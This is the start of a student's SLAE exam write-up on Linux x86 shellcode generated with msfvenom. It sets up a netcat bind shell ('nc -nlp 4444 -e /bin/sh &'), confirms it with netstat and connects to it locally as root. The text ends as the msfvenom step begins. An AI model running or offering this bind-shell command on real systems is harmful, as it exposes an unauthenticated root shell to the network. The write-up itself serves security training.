 ![](/msfLogo.png)
For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```c
root@zed# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root@zed# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```c
root@zed# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command.
```c

